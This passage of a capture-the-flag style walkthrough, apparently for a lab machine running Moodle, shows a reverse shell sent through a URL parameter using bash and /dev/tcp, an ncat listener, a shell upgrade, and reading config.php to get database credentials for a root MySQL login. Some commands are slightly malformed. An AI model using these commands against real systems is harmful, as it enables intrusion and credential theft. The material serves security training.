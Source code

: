 *packets are being sent from target equating to we have remote code execution (RCE) on the box.* 


# Reverse Shell

Sending the reverse shell with the RCE

    ...&PleaseSubscribe=bash -i >& /dev/tcp/10.10.14.3/3001 0>&1 (highlight ctrl+u to  URL encode)

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690371711_image.png)

## setup listener
    ncat -lvnp 9001

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690408492_image.png)


*execute and returns with a remote shell of box.*


## upgrade partial sell to ptty
    python -c 'import pty:pty.spawn("/bin/bash")'
    background with ctrl+z
    stty -raw echo
    fg (enter)
    (enter)

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690543796_image.png)



## enumerating the web-server

first things should consist of searching for the database and poking around it.

to search for database:

    ls | grep config

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690620676_image.png)


checkout `config.php`


![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690664600_image.png)


*database credentials have been retrieved.*


## connect to mysql sever
    mysql -u root -D moodle -p

![](https://paper-attachments.dropbox.com/s_6ECF295E465B7511B16CC3BDB079046D8A68D21F53D2BF223EF12FBD8573B95D_1556690755015_image.png)
